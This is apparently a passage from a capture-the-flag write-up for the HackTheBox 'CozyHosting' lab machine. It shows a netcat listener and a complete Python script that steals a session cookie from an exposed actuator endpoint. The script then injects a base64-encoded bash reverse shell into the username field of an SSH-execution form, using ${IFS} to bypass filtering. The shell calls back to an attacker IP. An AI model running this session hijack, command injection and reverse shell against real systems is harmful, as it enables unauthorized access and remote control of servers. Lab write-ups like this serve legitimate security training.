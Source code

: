 We can start a listener on our host :

```shell
rlwrap -cAr nc -lvnp 9001
```

And we get a shell !

In order to get an automated way to get this reverse-shell (using session cookie, and trigger the payload), we can use this python script :


python code to get access :

```python
#!/usr/bin/python3

import base64, requests, sys, urllib

BaseUrl = 'http://cozyhosting.htb'

response = requests.get( BaseUrl + '/actuator/sessions')
print( "Response code: " + str( response.status_code ) )

if response.status_code != 200:
    sys.exit( -1 )

print( response.text )

sessions = response.json()
print( sessions )

# kanderson session key
targetSession = [k for k in sessions.items() if k[1]=='kanderson'][0][0]

print( 'targetSession: ' + targetSession )

payload = 'bash -i >& /dev/tcp/10.10.14.23/9001 0>&1;'
print( payload )
payloadB64 =  base64.b64encode( bytes( payload, 'ascii' ) ).decode('utf-8')
print( payloadB64 )
payloadAll = ';echo${IFS}"' + str(payloadB64) + '"|base64${IFS}-d|bash;' 

cookies = {'JSESSIONID': targetSession}

datas = { 'host': '127.0.0.1',
        'username': payloadAll
        }
print(cookies)
print(datas)
response = requests.post(  BaseUrl + '/executessh' , cookies=cookies, data=datas)
print( response.status_code )
print( response.headers )
```
